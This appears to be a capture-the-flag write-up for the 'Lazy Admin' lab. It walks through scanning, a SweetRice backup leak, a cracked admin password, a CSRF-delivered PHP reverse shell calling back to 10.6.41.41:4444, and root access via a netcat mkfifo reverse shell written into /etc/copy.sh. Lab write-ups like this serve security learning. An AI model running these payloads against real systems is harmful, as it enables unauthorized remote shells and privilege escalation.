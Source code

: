 # Lazy Admin

IP - 


## Scanning and Enumeration

nmap -
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|  Supported Methods: GET HEAD POST OPTIONS
```


dirsearch - 
```
[14:06:23] 403 -   278B - /.php

[14:06:23] 403 -   278B - /.php3

[14:06:46] 301 -   316B - /content  ->  http://10.10.183.245/content/

[14:06:47] 200 -    2KB - /content/

[14:06:54] 200 -   11KB - /index.html

[14:07:09] 403 -   278B - /server-status

[14:07:09] 403 -   278B - /server-status/
```



Found out website can be accessed through this path - /content/as

![image](https://github.com/user-attachments/assets/51bafbb8-adff-44f7-a2a5-12551b7fbb69)


## Exploit
- Found SweetRice backup disclosure that allows you to access all mysql backup and download it.

reference - https://www.exploit-db.com/exploits/40718
![image](https://github.com/user-attachments/assets/0b749176-2249-4032-acb1-ea09d1964fac)


- Inside the file there is username and password to log in as "admin".
![image](https://github.com/user-attachments/assets/9a346bcd-f5b9-4532-8086-7b4cba808d90)


## Crack the Hash
![image](https://github.com/user-attachments/assets/e79a5b30-aa5f-4f72-88b9-b92cc96e7465)

- Successfully logged in using: Username: manager  |  Password: Password123
![image](https://github.com/user-attachments/assets/d731429e-a0a3-4dcb-b57b-9b80688c913f)


- Followed the instructions first saw at the beginning of the lab in http://10.10.51.35/content/ "If you are the webmaster,please go to Dashboard -> General -> Website setting and uncheck the checkbox "Site close" to open your website."

- Went back to http://10.10.51.35/content/ and refreshed the page.

![image](https://github.com/user-attachments/assets/a8bd759c-3a56-444b-a416-48fe396b60fc)

## PHP Reverse Shell
Found a vulnerability by using searchexploit (SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Ex | php/webapps/40700.html)


![image](https://github.com/user-attachments/assets/890c43c5-f2f2-43a4-b6e2-ee1ea0587c61)


Successfully gained php reverse shell by modifying it and adding it to the ads code and saving it in the website:
```
<html>
<body onload="document.exploit.submit();">
  <form action="http://10.10.51.35/content/as/?type=ad&mode=save" method="POST" name="exploit">
    <input type="hidden" name="adk" value="shell"/>
    <textarea name="adv">
<?php
$ip = '10.6.41.41';
$port = 4444;
$sock=fsockopen($ip, $port);
$proc=proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
    </textarea>
  </form>
</body>
</html>

```

![image](https://github.com/user-attachments/assets/92c6a103-5184-47c7-acdb-ccfe55461180)

- Found user.txt inside /home/itguy directory

## Privilege Escalation/Reverse Shell

Found this information: 
```
$ sudo -l
User www-data may run the following commands on THM-Chal:
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
- This means -  (user www-data) can run the script /home/itguy/backup.pl as root using sudo, without a password.

```
$ cat [backup.pl](http://backup.pl/)
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
- The script uses Perl to run /etc/copy.sh using sh. So if I can edit /etc/copy.sh, I can control what runs as root.

- To get the reverse shell I ran this command first:
```
echo 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.6.41.41 8000 > /tmp/f' > /etc/copy.sh
```
- This is a netcat reverse shell using only sh, not bash (which avoids syntax errors).

- Opened a new tab and ran netcat and went back to the terminal and executed this command:
```
sudo /usr/bin/perl /home/itguy/backup.pl
```

- Successfully got a reverse shell to the machine with root permissions and found the root.txt flag.

![image](https://github.com/user-attachments/assets/d867cfc7-8a9d-4038-a6c4-72fba1e02a36)


